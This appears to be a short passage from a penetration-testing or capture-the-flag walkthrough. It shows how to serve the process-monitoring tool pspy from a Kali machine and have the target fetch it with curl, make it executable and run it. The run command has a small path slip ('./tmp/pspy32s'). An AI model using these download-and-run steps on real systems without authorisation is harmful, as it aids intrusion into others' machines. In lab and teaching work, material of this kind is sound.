 ```use-pspy-precompiled
#At kali machine
python3 -m http.server 80
#at target machine
curl http://$kaliIP/pspy32s -o /tmp/pspy32s
chmod +x /tmp/pspy32s
./tmp/pspy32s
```

We can use a tools `pspy` to monitor running services.

Check the target machine architecture `uname -a`and download the compiled files to the target machine. Either static or small version will do, I do prefer small version for ease of transfer to the target machine.

[PSPY GitHub] (https://github.com/DominicBreuker/pspy)
